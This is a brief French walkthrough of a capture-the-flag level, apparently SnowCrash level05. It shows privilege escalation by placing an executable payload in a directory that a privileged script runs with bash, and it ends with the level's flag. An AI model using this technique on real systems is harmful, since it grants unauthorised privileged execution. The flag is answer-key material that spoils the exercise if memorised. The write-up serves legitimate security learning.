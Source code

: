 1. Lister tous les fichiers appartenants a `flag05`
   ```
   find / -user flag05 -not -path '/proc/*' 2> /dev/null
   ```
2. Lire le fichier `/usr/sbin/openarenaserver`
   ```
   cat /usr/sbin/openarenaserver
   ```
3. L'executable va lire tous les fichiers contenus dans /opt/openarenaserver/ et les executer `bash -x "$i"`
4. Le but est donc de creer un payload qui va executer la fonction `getflag` et stocker le resultat dans un fichier accesible (`/tmp/log1`)
5. On rends le payload executable
   ```
   chmod +x /opt/openarenaserver/payload.sh
   ```
6. On attends en verifiant le fichier log
7. `cat /tmp/log1`

> Flag: viuaaale9huek52boumoomioc
